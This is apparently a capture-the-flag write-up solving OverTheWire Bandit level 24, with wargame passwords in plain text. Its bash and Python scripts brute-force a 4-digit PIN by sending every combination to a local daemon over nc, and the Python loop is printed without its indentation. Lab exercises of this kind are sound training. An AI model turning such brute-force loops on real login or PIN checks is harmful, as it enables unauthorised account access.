 # Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

You do not need to create new connections each time

### Solution:

From the previous level, we have the password:

**Password:** gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

To SSH into the server, use the following command:

**Command:**

ssh [bandit24@bandit.labs.overthewire.org](mailto:bandit1@bandit.labs.overthewire.org) -p 2220

enter the password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

bandit24@bandit:~$ mkdir /tmp/kamisama24
bandit24@bandit:~$ cd /tmp/kamisama24
bandit24@bandit:/tmp/kamisama24$ nano [pass24.sh](http://pass24.sh/)
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/kamisama24$ la -al
total 40
drwxrwxr-x   2 bandit24 bandit24  4096 Jul 18 07:32 .
drwxrwx-wt 704 root     root     32768 Jul 18 07:32 ..
bandit24@bandit:/tmp/kamisama24$ vim [file.sh](http://file.sh/) 

In file.sh:

```jsx
#!/bin/bash
pass23=gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
for pin in {0000..9999}
do
echo "$pass23 $pin"
done |
nc localhost 30002
```

bandit24@bandit:/tmp/kamisama24$ ls -al
total 44
drwxrwxr-x   2 bandit24 bandit24  4096 Jul 18 07:35 .
drwxrwx-wt 710 root     root     32768 Jul 18 07:35 ..
-rw-rw-r--   1 bandit24 bandit24   126 Jul 18 07:35 [file.sh](http://file.sh/)
bandit24@bandit:/tmp/kamisama24$ chmod +x [file.sh](http://file.sh/)

bandit24@bandit:/tmp/kamisama24$ ./file.sh | grep -v "Wrong! Please enter the correct current password and pincode. Try again."
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

To know the pin code:

bandit24@bandit:/tmp/kamisama24$ ./file.sh > output.txt
bandit24@bandit:/tmp/kamisama24$ cat output.txt | grep "Wrong! Please enter the correct current password and pincode. Try again." | wc -l
3947

i.e.

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 3947
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

Using python:

In file.py:

#!/usr/bin/python3
pass24 = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
for pin in range(0,10000):
print(pass24 + " " + str(pin).zfill(4))

bandit24@bandit:/tmp/kamisama24$ ./file.py | nc localhost 30002 | grep -v "Wrong! Please enter the correct current password and pincode. Try again."
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4